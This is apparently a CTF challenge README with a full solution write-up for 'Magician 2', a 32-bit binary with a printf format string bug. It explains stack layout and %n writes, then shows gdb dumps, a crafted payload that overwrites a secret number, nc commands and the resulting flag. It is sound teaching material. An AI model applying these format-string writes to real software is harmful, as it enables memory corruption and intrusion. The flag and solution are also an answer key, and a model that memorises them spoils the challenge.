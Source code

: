 # Magician 2

## Question Text

I got inspired by PotatoDrug's magic show, so I made my own.

You may need 32 bit libraries for this on 64-bit machines! `apt-get install libc6-i386`

Or use whatever command you would to get the 32-bit libs...

`nc pwn.chal.gryphonctf.com 18156`

*Creator - @IncompetentDev*

### Hints

1. Wonder what the whispering voice was about. Maybe it tells me about where the secret number is stored?
2. The magic of (%d or %x) and %n to get a new number...

## Setup Guide

1. Build binaries: `make` in generate
    - Distributes binaries to distrib and service
2. Build docker image: `./build.sh` in service
3. Run docker image: `./run.sh` in service

## Distribution
- magic2.c
    - SHA1: 45075a9643f1213c461840380bc6656942f77886
    - Source code for magic2
    
- magic2-distrib
    - SHA1: 74c646a5cba3d98b34dc0e6e34c88cf1ce12851e  
    - ELF 32-bit LSB executable 

## Solution

This problem requires a firm grasp of memory structure (how programs use memory, specifically the stack).

This problem also requires intimate knowledge on format string attacks. 

<details>
    <summary>
   	 **Stack Explanation**
    </summary>
	
  ![logo](https://i.stack.imgur.com/zgw0O.png)

  1. Programs store data on stack (resides on RAM). Each program may have different functions; and each function has a memory  structure resembling that of the image. For this problem, we are looking specifically at the stack frame for pwn(), where fixed-size variables are stored.


      int secretnum = (rand() % 1000000) + 1000000;
      char buf[sizeOfBuf];
  2. `secretnum` and `buf` are two such fixed-size variables that are stored onto the stack. Our goal is to override `secretnum` using the format string vulnerability present to get a value of 50. (Covered later)
</details>

<details>
	<summary>
    	**Format String attacks**
    </summary>

This attack are commonly executed against `printf` statements (or equivalent "Format Functions" eg `sprintf`), when inputs are passed in directly as an argument to the format function. (eg `char str[20]="%d%d%d"; printf(str);` which results in `printf("%d%d%d");` )

What usually happens with a format function is that it pushes its arguments to the top of the stack. For example, `int num=5; printf("%d, num");` would push 5 to the top of the stack, and `%d` tells the printf function to look through the top 32 bits (a 4 byte integer, which is what `%d` represents) and use that as the value to print. In this case, it would be 5.

Omitting the `num` argument to `printf` would still result in printf searching through the 4 bytes of the stack. However, the number 5 is not pushed to the stack. This results in printf returning whatever is currently at the top of the stack, allowing an attacker to read arbitrary values.

Subsequent `%d` tokens would allow an attacker to continue reading down the stack, so for example `%d%d` would read 2 integers, or 8 bytes worth of data.

Also notable is the `%n` token in `printf()`, which will read 4 bytes of data from the stack and interpret it as a memory address, instead of a value(which `%d` does). `%n` writes the number of characters printed by the `printf()` function to the address derived from the stack . For example, if `%n` reads in `0xffffd8d8` as the next 4 bytes, and `printf()` printed "asdasdasd", it would write the value 9 into the memory address 0xffffd8d8.
</details>

<details>
	<summary>
		**Exploitation**
    </summary>
    

With these two pieces of information, exploitation is now possible.

When first connecting to the program, the following message appears.

    nc 127.0.0.1 18156
    Prove to me magicians can read minds!
    Before you start, please tell me your name (256 chars max): 
    (psst, this aint no magic trick, he's tricky!) 0xffffdd24

Notable is the `0xffffdd24` value printed (**NOTE: ASLR ENABLED ON SERVER(in competition). FEEL FREE TO DISABLE, BUT IN THAT CASE WATCH OUT FOR ENV VARIABLES. YOU CAN DISABLE ASLR AND TRY TO EXPLOIT, MAY HELP UNDERSTANDING**). It corresponds to a memory address! Looking at the source code, there is a line:

    printf("(psst, this aint no magic trick, he's tricky!) %p\n",&secretnum);
	
This shows the address of `secretnum`! This will be useful later.

Inspecting the code, we also find these lines of interest:
    
    //get input
	fgets(buf, sizeOfBuf, stdin);
	
	//concat str
	strcat(buf, "'s prediction: "); 
	
	//print user's name + concat string
	printf(buf);

There is a format string vulnerability here! Users can enter any input into the char array `buf` which is passed into `printf` as an argument. A user could enter `%d%d%d` and pass it in as an argument to `printf`, effectively doing `printf("%d%d%d")`.

Now would be a good time to inspect what the stack looks like when the program is running. Load up the trusty `gdb`.

<details>
	<summary>
    	`GDB dump`
    </summary>
    
	gdb magic2-distrib
    GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
    Copyright (C) 2016 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from magic2-distrib...(no debugging symbols found)...done.
    (gdb) disas *pwn
    Dump of assembler code for function pwn:
    0x08048608 <+0>:	push   %ebp
    0x08048609 <+1>:	mov    %esp,%ebp
    0x0804860b <+3>:	push   %edi
    0x0804860c <+4>:	push   %esi
    0x0804860d <+5>:	push   %ebx
    0x0804860e <+6>:	sub    $0x2c,%esp
    0x08048611 <+9>:	mov    %esp,%eax
    0x08048613 <+11>:	mov    %eax,%esi
    0x08048615 <+13>:	sub    $0xc,%esp
    0x08048618 <+16>:	push   $0x0
    0x0804861a <+18>:	call   0x8048430 <time@plt>
    0x0804861f <+23>:	add    $0x10,%esp
    0x08048622 <+26>:	sub    $0xc,%esp
    0x08048625 <+29>:	push   %eax
    0x08048626 <+30>:	call   0x8048460 <srand@plt>
    0x0804862b <+35>:	add    $0x10,%esp
    0x0804862e <+38>:	call   0x8048490 <rand@plt>
    0x08048633 <+43>:	mov    %eax,%ecx
    0x08048635 <+45>:	mov    $0x431bde83,%edx
    0x0804863a <+50>:	mov    %ecx,%eax
    0x0804863c <+52>:	imul   %edx
    0x0804863e <+54>:	sar    $0x12,%edx
    ---Type <return> to continue, or q <return> to quit---
    0x08048641 <+57>:	mov    %ecx,%eax
    0x08048643 <+59>:	sar    $0x1f,%eax
    0x08048646 <+62>:	sub    %eax,%edx
    0x08048648 <+64>:	mov    %edx,%eax
    0x0804864a <+66>:	imul   $0xf4240,%eax,%eax
    0x08048650 <+72>:	sub    %eax,%ecx
    0x08048652 <+74>:	mov    %ecx,%eax
    0x08048654 <+76>:	add    $0xf4240,%eax
    0x08048659 <+81>:	mov    %eax,-0x24(%ebp)
    0x0804865c <+84>:	sub    $0x8,%esp
    0x0804865f <+87>:	lea    -0x24(%ebp),%eax
    0x08048662 <+90>:	push   %eax
    0x08048663 <+91>:	push   $0x804887c
    0x08048668 <+96>:	call   0x8048410 <printf@plt>
    0x0804866d <+101>:	add    $0x10,%esp
    0x08048670 <+104>:	mov    $0x100,%eax
    0x08048675 <+109>:	sub    $0x1,%eax
    0x08048678 <+112>:	mov    %eax,-0x1c(%ebp)
    0x0804867b <+115>:	mov    $0x100,%eax
    0x08048680 <+120>:	mov    %eax,%edx
    0x08048682 <+122>:	mov    $0x10,%eax
    0x08048687 <+127>:	sub    $0x1,%eax
    0x0804868a <+130>:	add    %edx,%eax
    ---Type <return> to continue, or q <return> to quit---
    0x0804868c <+132>:	mov    $0x10,%ebx
    0x08048691 <+137>:	mov    $0x0,%edx
    0x08048696 <+142>:	div    %ebx
    0x08048698 <+144>:	imul   $0x10,%eax,%eax
    0x0804869b <+147>:	sub    %eax,%esp
    0x0804869d <+149>:	mov    %esp,%eax
    0x0804869f <+151>:	add    $0x0,%eax
    0x080486a2 <+154>:	mov    %eax,-0x20(%ebp)
    0x080486a5 <+157>:	mov    0x804a040,%edx
    0x080486ab <+163>:	mov    $0x100,%ecx
    0x080486b0 <+168>:	mov    -0x20(%ebp),%eax
    0x080486b3 <+171>:	sub    $0x4,%esp
    0x080486b6 <+174>:	push   %edx
    0x080486b7 <+175>:	push   %ecx
    0x080486b8 <+176>:	push   %eax
    0x080486b9 <+177>:	call   0x8048420 <fgets@plt>
    0x080486be <+182>:	add    $0x10,%esp
    0x080486c1 <+185>:	mov    -0x20(%ebp),%edx
    0x080486c4 <+188>:	mov    %edx,%eax
    0x080486c6 <+190>:	mov    $0xffffffff,%ecx
    0x080486cb <+195>:	mov    %eax,%ebx
    0x080486cd <+197>:	mov    $0x0,%eax
    0x080486d2 <+202>:	mov    %ebx,%edi
    ---Type <return> to continue, or q <return> to quit---
    0x080486d4 <+204>:	repnz scas %es:(%edi),%al
    0x080486d6 <+206>:	mov    %ecx,%eax
    0x080486d8 <+208>:	not    %eax
    0x080486da <+210>:	sub    $0x1,%eax
    0x080486dd <+213>:	add    %edx,%eax
    0x080486df <+215>:	movl   $0x70207327,(%eax)
    0x080486e5 <+221>:	movl   $0x69646572,0x4(%eax)
    0x080486ec <+228>:	movl   $0x6f697463,0x8(%eax)
    0x080486f3 <+235>:	movl   $0x203a6e,0xc(%eax)
    0x080486fa <+242>:	sub    $0xc,%esp
    0x080486fd <+245>:	push   $0x80488b0
    0x08048702 <+250>:	call   0x8048440 <puts@plt>
    0x08048707 <+255>:	add    $0x10,%esp
    0x0804870a <+258>:	mov    -0x20(%ebp),%eax
    0x0804870d <+261>:	sub    $0xc,%esp
    0x08048710 <+264>:	push   %eax
    0x08048711 <+265>:	call   0x8048410 <printf@plt>
    0x08048716 <+270>:	add    $0x10,%esp
    0x08048719 <+273>:	mov    0x804a040,%eax
    0x0804871e <+278>:	sub    $0x4,%esp
    0x08048721 <+281>:	push   %eax
    0x08048722 <+282>:	push   $0x8
    0x08048724 <+284>:	lea    -0x2c(%ebp),%eax
    ---Type <return> to continue, or q <return> to quit---
    0x08048727 <+287>:	push   %eax
    0x08048728 <+288>:	call   0x8048420 <fgets@plt>
    0x0804872d <+293>:	add    $0x10,%esp
    0x08048730 <+296>:	mov    -0x24(%ebp),%eax
    0x08048733 <+299>:	cmp    $0x32,%eax
    0x08048736 <+302>:	jne    0x804873f <pwn+311>
    0x08048738 <+304>:	call   0x804875e <win>
    0x0804873d <+309>:	jmp    0x8048753 <pwn+331>
    0x0804873f <+311>:	mov    -0x24(%ebp),%eax
    0x08048742 <+314>:	sub    $0x8,%esp
    0x08048745 <+317>:	push   %eax
    0x08048746 <+318>:	push   $0x80488fc
    0x0804874b <+323>:	call   0x8048410 <printf@plt>
    0x08048750 <+328>:	add    $0x10,%esp
    0x08048753 <+331>:	mov    %esi,%esp
    0x08048755 <+333>:	nop
    0x08048756 <+334>:	lea    -0xc(%ebp),%esp
    0x08048759 <+337>:	pop    %ebx
    0x0804875a <+338>:	pop    %esi
    0x0804875b <+339>:	pop    %edi
    0x0804875c <+340>:	pop    %ebp
    0x0804875d <+341>:	ret    
    End of assembler dump.
    (gdb) 
    (gdb) break *pwn+265
    Breakpoint 1 at 0x8048711
    (gdb) run
    Starting program: /home/kht/Desktop/GCTFLite/GryphonCTF2018-Lite-Challenges/challenges/pwn/Magician2/distrib/magic2-distrib 
    Prove to me magicians can read minds!
    Before you start, please tell me your name (256 chars max): 
    (psst, this aint no magic trick, he's tricky!) 0xffffcf54				<----- this address is going to be different everytime because of ASLR or environment variables
    %d %d %d %d %d %d      
    I'm thinking of a random number (0 to 1000000), can you tell me what it is?

    Breakpoint 1, 0x08048711 in pwn ()
    (gdb) x/10dw $esp
    0xffffce30:	-12736	256	-134519392	0
    0xffffce40:	622879781	1680154724	543434016	622879781
    0xffffce50:	1931938404	1701998624
    (gdb) c
    Continuing.
    256 -134519392 0 622879781 1680154724 543434016
    's prediction:


</details>

This section of `gdb's` output should be examined more closely:
 
<details>
	<summary>
    	`GDB dump`
    </summary>
    
 
    (gdb) break *pwn+265 			<-------------------------------------------- note: printf(buf) statement
    Breakpoint 1 at 0x8048711
    (gdb) run
    Starting program: /home/kht/Desktop/GCTFLite/GryphonCTF2018-Lite-Challenges/challenges/pwn/Magician2/distrib/magic2-distrib 
    Prove to me magicians can read minds!
    Before you start, please tell me your name (256 chars max): 
    (psst, this aint no magic trick, he's tricky!) 0xffffcf54
    %d %d %d %d %d %d      
    I'm thinking of a random number (0 to 1000000), can you tell me what it is?

    Breakpoint 1, 0x08048711 in pwn ()
    (gdb) x/10dw $esp
    0xffffce30:	-12736	256	-134519392	0
    0xffffce40:	622879781	1680154724	543434016	622879781
    0xffffce50:	1931938404	1701998624
    (gdb) c
    Continuing.
    256 -134519392 0 622879781 1680154724 543434016
    's prediction:
    

</details>
    
    
Using `gdb` to stop the program before the `printf()` statement was executed, the stack was examined with `x/10dw $esp`, which prints the first 10 integers off the top of the stack. After the `printf()` statement executed, it was found that the values `256`, `-134519392` and so on corresponded with the 6 `%d` tokens.

This proves a format string vulnerability, but what input would be required to change the address of `secretnum`?

Turns out, the `buf` char array is stored in the stack starting at the address `0xffffce430` (Notice the repeated 0x73 hex values, which is the hex value for the character `s`)
<details>
	<summary>
    	`GDB dump`
    </summary>
    
	(gdb) run
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	Starting program: /home/kht/Desktop/GCTFLite/GryphonCTF2018-Lite-Challenges/challenges/pwn/Magician2/distrib/magic2-distrib 
	Prove to me magicians can read minds!
	Before you start, please tell me your name (256 chars max): 
	(psst, this aint no magic trick, he's tricky!) 0xffffcf54
	sssssssssssssssssssssssssssssssssssssssssssssssssss
	I'm thinking of a random number (0 to 1000000), can you tell me what it is?

	Breakpoint 1, 0x08048711 in pwn ()
	(gdb) x/40x $esp
	0xffffce30:	0xffffce40	0x00000100	0xf7fb65a0	0x00000000
	0xffffce40:	0x73737373	0x73737373	0x73737373	0x73737373
	0xffffce50:	0x73737373	0x73737373	0x73737373	0x73737373
	0xffffce60:	0x73737373	0x73737373	0x73737373	0x73737373
	0xffffce70:	0x0a737373	0x70207327	0x69646572	0x6f697463
	0xffffce80:	0x00203a6e	0xf7ffd918	0xffffcea0	0x080482e8
	0xffffce90:	0x00000000	0xf7fd8170	0x00000000	0x00000000
	0xffffcea0:	0xf7fe3a70	0x08048248	0xf7e35371	0xf7fb6000
	0xffffceb0:	0xf7fe3a70	0x08048278	0x00000001	0xf7ffd918
	0xffffcec0:	0x0804a02c	0xf7fe88a2	0xf7ffdad0	0xf7fd4490


</details>


Now the value of `secretnum` at the address `0xffffdd24` must be overwritten to get the flag.

The value of the address `0xffffdd24` must be pushed onto the stack (through the `buf` char array) to accomplish that. Typing the address in little endian format as input: `\x24\xdd\xff\xff`, where `\x` represents a hexadecimal value with the following two characters representing the hex value, the address value can be written onto the stack.

Next, `%n` must read this address so it writes to this portion. Hence, 4 preceding `%d` tokens must be added to allow `%n` to read the address. The current input should now be `\x24\xdd\xff\xff%d%d%d%d%n`. This prints:

	$���256-1344251840

The 2nd, 3rd and 4th characters are not valid ASCII characters, hence showing a "?" or something not visible. This prints a total of 18 characters. If input into the program, we find that we get the output:

	I'm thinking of a random number (0 to 1000000), can you tell me what it is?
	$���256-1344251840
	's prediction: HA! the answer was 18 see I knew you couldn't read my mind.

Almost done! The actual server has ASLR running, which changes `secretnum`'s address. Get the value of the address given by the program, then adapt your attack input accordingly. `printf()` also needs to print a total of 50 characters to write the value 50 to `secretnum`.

One of the ways to force `printf()` to print more characters easily would be to specify the precision for the printf token. We can use the following:

`"\x24\xdd\xff\xff%016d%016d%014d%n"`

4+16+16+14=50

To print the appropriate output, `python3` can be used. 

Python 3: `python3 -c "print("\x24\xdd\xff\xff%016d%016d%014d%n")" > attack` **NOTE: NOT SOLUTION, ITS AN EXAMPLE WITH ASLR DISABLED ON A PARTICUALR ENVIRONMENT**

Direct the contents of the `attack` file into the program stdin to get the flag.

	kht@ubuntu:~/Desktop/GCTFLite/GryphonCTF2018-Lite-Challenges/challenges/pwn/Magician2/solution$ nc 127.0.0.1 18156 < ./attack1
	Prove to me magicians can read minds!
	Before you start, please tell me your name (256 chars max): 
	(psst, this aint no magic trick, he's tricky!) 0xffffdd24
	I'm thinking of a random number (0 to 1000000), can you tell me what it is?
	$���0000000000000256-00000013442518400000000000000
	's prediction: Magic??
	GCTF{unl1k3ly_y0ull_us3_th15_0uts1d3_0f_ctf5}

Actual solution is in solutions folder. Run with python3. It connects to the server and adds the address into the payload accordingly. (recv() may be faulty, in that case try again.)

    kht@ubuntu:~/Desktop/GCTFLite/GryphonCTF2018-Lite-Challenges/challenges/pwn/Magician2/solution$ python3 solution.py
    I'm thinking of a random number (0 to 1000000), can you tell me what it is?
    b"\n4g\xe2\xff0000000000000256-00000013483478400000000000000\n's prediction: "
    b'Magic??\nGCTF{unl1k3ly_y0ull_us3_th15_0uts1d3_0f_ctf5}\n'

</details>

### Flag
`GCTF{unl1k3ly_y0ull_us3_th15_0uts1d3_0f_ctf5}`

## Recommended Reads

* https://bitvijays.github.io/LFC-BinaryExploitation.html#format-string-vulnerability

